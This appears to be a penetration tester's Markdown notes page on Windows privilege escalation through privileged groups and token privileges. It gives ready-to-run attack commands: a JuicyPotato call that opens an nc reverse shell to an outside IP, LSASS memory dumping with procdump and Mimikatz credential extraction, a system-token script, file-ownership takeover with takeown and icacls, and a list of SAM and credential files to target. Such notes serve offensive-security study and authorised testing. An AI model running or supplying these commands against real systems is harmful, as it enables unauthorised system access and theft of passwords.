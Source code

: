 
### Authority Levels:
1. NT Authority\ System 
2. administrator 
3. Administrators 
4. non-privileged domain user part of admin group.
5. Domain user part of a Administrator group.

## Authorisation Process 
Every Security Identifier is identified by a unique Security Identifier ([SID)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers)

Users access tokens are compared against [Access Control Entries (ACE)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries)
 ![[Windows Authorisation Process.png]]
 https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-principals

## Group/ User Rights and Privileges 
[Master  List](https://ss64.com/nt/syntax-security_groups.html)
### Groups

##### Default Administrators 
	Domain Admins and Enterprise Admins are "Super Groups"
##### Server Operators 
	Members can modify services, access SMB shares and backup files
##### Backup Operators
	Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
##### Print Operators
	Members can logon to DCs locally and "trick" windows into loading a malicious driver. 
##### Hyper-V Administrators
	If a Virtual DCs is present these should be considered domain admins
##### Account Operators
	Modify non-protected accounts and groups in the domain
#### Remote Desktop Users
	Not given any useful permission by default but often given rights such as: "Alow Login through RDP" and can move laterally through RDP
##### Remote Management Users 
	Can log on to DCs with PSremoting
#### Group Policy Creator Owners
	can create new GPOs but would never be delegated permissions to link GPOs to a container like a DC
#### Schema Admins
	Members can modify the Active Directory schema structure and backdoor any-to-be created Group/GPO by adding a compromised account to the default object ACL.
#### DNS Admins
	Can load DLL in a DC. Cannot restart the DNS server. Load a malicious DLL and wait for reboot as a persistence mechanism.  
	May often result in a crash. better to exploit a WDAP record. 
	https://cube0x0.github.io/Pocing-Beyond-DA/
## Users
https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
List user assigned rights
```cmd
whoami /priv
```
#### Standard rights 
Administrator	```
	SeIncreaseQuotaPrivilege
	SeSecurityPrivilege
	SeTakeOwnershipPrivilege
	SeLoadDriverPrivilege
	SeSystemProfilePrivilege
	SeSystemtimePrivilege
	SeProfileSingleProcessPrivilege
	SeIncreaseBasePriorityPrivilege
	SeCreatePagefilePrivilege
	SeBackupPrivilege
	SeRestorePrivilege
	SeShutdownPrivilege 
	SeDebugPrivilege    
	SeSystemEnvironmentPrivilege
	SeChangeNotifyPrivilege
	SeRemoteShutdownPrivilege 
	SeUndockPrivilege
	SeManageVolumePrivilege
	SeImpersonatePrivilege
	SeCreateGlobalPrivilege
	SeIncreaseWorkingSetPrivilege
	SeTimeZonePrivilege
	SeCreateSymbolicLinkPrivilege
	SeDelegateSessionUserImpersonatePrivilege
			```
User  ```
	SeChangeNotifyPrivilege
	SeIncreaseWorkingSetPrivilege
			```
Backup Operator ```
	SeShutdownPrivilege 
	SeChangeNotifiyPrivilege
	SeIncreaseWorkingSePrivilege
			```


## SeImpersonate and SeAssignPrimaryToken
SeImpersonate privilege is needed to utilise tokens. 
	[Only given to administrative accounts.](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)
Can call other process token to escalate privileges to system. 
	Make a call to the WinLogon process to get a system token.
	[Trick a process into running as System to connect to their process.](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)
	
#### Use JuicyPotato to escalate privileges.
```cmd
xp_cmdshell <dir to file>JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe 172.16.7.240 4000 -e cmd.exe" -t * 

sudo nc -lnvp 8443 
```
On Windows Server 2019 and Windows 10 1809+ you need to use PrintSpoofer / RoguePotato exploits instead.

### SeDebugPrivilige
Run an application or service with troubleshooting with this privilege.
By default only administrators are assigned this.
Use [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to leverage the privilege and dump process memory. *(LSASS WORKS WELL)*

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This can then be loaded into Mimikatz

```cmd
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### Manual dump of LSASS memory from task manager.
![[Dump File.png]] 
[Remote Code Execution](https://decoder.cloud/2018/02/02/getting-system/)
[Script to use:](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
Run with this syntax :

```powershell
.\psgetsys.ps1 [MyProcess]::CreateProcessFromParent(<system_pid>,"c:\windows\system32\cmd.exe" <or any cmd>,"")
```

get the system pid with `tasklist`
![[psgetsys script.png]]

### SeTakeOwnershipPrivilige
Allows a user to take ownership of any "securable object", active Directory objects, NTFS files/folders, printers, registry keys, services and processes.
Assigns WRITE_OWNER rights
Most commonly service user accounts. 
![[SeTakeOwnership Privilige.png]]
- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`
#### [How to leverage:](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)
##### [Script to use:](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
check you have privilege
```cmd
whoami /priv
```
Import Script 
```powershell
Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1
```
Target an interesting file you have found:
```powershell
Get-ChildItem -Path '<file to target>' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```
Check File Ownership:
```cmd
cmd /c dir /q '<path to folder>'
```
Take Ownership of file:
```cmd
takeown /f '<path to file>
```
Confirming Ownership Changed:
```powershell
Get-ChildItem -Path <path to file>' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
ACL may need to be modified:
```cmd
icacls '<path to file>' /grant <username>:F
```
Interesting Files:
	```
```bash
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
passwords.*
pass.*
creds.*
*.kdbx
```

